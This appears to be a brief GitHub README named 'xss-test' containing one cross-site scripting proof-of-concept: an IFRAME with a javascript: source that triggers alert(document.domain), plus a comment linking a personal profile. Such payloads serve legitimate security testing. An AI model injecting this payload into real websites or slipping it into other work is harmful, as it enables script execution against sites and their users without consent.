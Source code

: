 # xss-test
xss


```
  
<!--      TEST : https://www.linkedin.com/in/sagaryadav8742/ -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
